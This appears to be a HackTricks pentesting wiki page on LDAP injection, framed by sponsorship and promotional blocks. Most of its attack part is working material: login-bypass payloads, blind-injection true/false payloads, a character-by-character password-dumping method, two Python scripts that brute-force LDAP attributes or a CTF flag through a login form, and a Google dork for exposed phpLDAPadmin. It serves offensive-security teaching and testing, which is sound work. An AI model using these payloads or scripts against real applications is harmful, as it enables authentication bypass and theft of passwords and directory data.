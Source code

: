 # LDAP Injection

## LDAP Injection

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

<img src="../.gitbook/assets/image (620) (2) (1) (1) (1) (10) (11).png" alt="" data-size="original">

**Bug bounty tip**: **sign up** for **Intigriti**, a premium **bug bounty platform created by hackers, for hackers**! Join us at [**https://go.intigriti.com/hacktricks**](https://go.intigriti.com/hacktricks) today, and start earning bounties up to **$100,000**!

{% embed url="https://go.intigriti.com/hacktricks" %}

## LDAP Injection

### **LDAP**

**If you want to know what is LDAP access the following page:**

{% content-ref url="../network-services-pentesting/pentesting-ldap.md" %}
[pentesting-ldap.md](../network-services-pentesting/pentesting-ldap.md)
{% endcontent-ref %}

**LDAP Injection** is an attack used to **exploit** **web** based applications that construct **LDAP** **statements** based on **user** **input**. When an application **fails** to properly **sanitize** user input, it's possible to modify LDAP statements using a local proxy.

{% file src="../.gitbook/assets/en-blackhat-europe-2008-ldap-injection-blind-ldap-injection.pdf" %}

**Filter** = ( filtercomp )\
**Filtercomp** = and / or / not / item\
**And** = & filterlist\
**Or** = |filterlist\
**Not** = ! filter\
**Filterlist** = 1\*filter\
**Item**= simple / present / substring\
**Simple** = attr filtertype assertionvalue\
**Filtertype** = _'=' / '\~=' / '>=' / '<='_\
**Present** = attr = \*\
**Substring** = attr ”=” \[initial] \* \[final]\
**Initial** = assertionvalue\
**Final** = assertionvalue\
**(&)** = Absolute TRUE\
**(|)** = Absolute FALSE

For example:\
`(&(!(objectClass=Impresoras))(uid=s*))`\
`(&(objectClass=user)(uid=*))`

You can access to the database, and this can content information of a lot of different types.

**OpenLDAP**: If 2 filters arrive, only executes the first one.\
**ADAM or Microsoft LDS**: With 2 filters they throw an error.\
**SunOne Directory Server 5.0**: Execute both filters.

**It is very important to send the filter with correct syntax or an error will be thrown. It is better to send only 1 filter.**

The filter has to start with: `&` or `|`\
Example: `(&(directory=val1)(folder=public))`

`(&(objectClass=VALUE1)(type=Epson*))`\
`VALUE1 = *)(ObjectClass=*))(&(objectClass=void`

Then: `(&(objectClass=`**`*)(ObjectClass=*))`** will be the first filter (the one executed).

### Login Bypass

LDAP supports several formats to store the password: clear, md5, smd5, sh1, sha, crypt. So, it could be that independently of what you insert inside the password, it is hashed.

```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSE then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```

#### Lists

* [LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_FUZZ.txt)
* [LDAP Attributes](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt)
* [LDAP PosixAccount attributes](https://tldp.org/HOWTO/archived/LDAP-Implementation-HOWTO/schemas.html)

### Blind LDAP Injection

You may force False or True responses to check if any data is returned and confirm a possible Blind LDAP Injection:

```bash
#This will result on True, so some information will be shown
Payload: *)(objectClass=*))(&objectClass=void
Final query: (&(objectClass= *)(objectClass=*))(&objectClass=void )(type=Pepi*))
```

```bash
#This will result on True, so no information will be returned or shown
Payload: void)(objectClass=void))(&objectClass=void
Final query: (&(objectClass= void)(objectClass=void))(&objectClass=void )(type=Pepi*))
```

#### Dump data

You can iterate over the ascii letters, digits and symbols:

```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```

### Scripts

#### **Discover valid LDAP fields**

LDAP objects **contains by default several attributes** that could be used to **save information**. You can try to **brute-force all of them to extract that info.** You can find a list of [**default LDAP attributes here**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP\_attributes.txt).

```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
    value = ""
    finish = False
    while not finish:
        for char in alphabet: #In each possition test each possible printable char
            query = f"*)({attribute}={value}{char}*"
            data = {'login':query, 'password':'bla'}
            r = requests.post(url, data=data, proxies=proxy)
            sys.stdout.write(f"\r{attribute}: {value}{char}")
            #sleep(0.5) #Avoid brute-force bans
            if "Cannot login" in r.text:
                value += str(char)
                break

            if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
                finish = True
                print()
```

#### **Special Blind LDAP Injection (without "\*")**

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

### Google Dorks

```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```

### More Payloads

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!

Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)

Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)

**Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**

**Share your hacking tricks submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
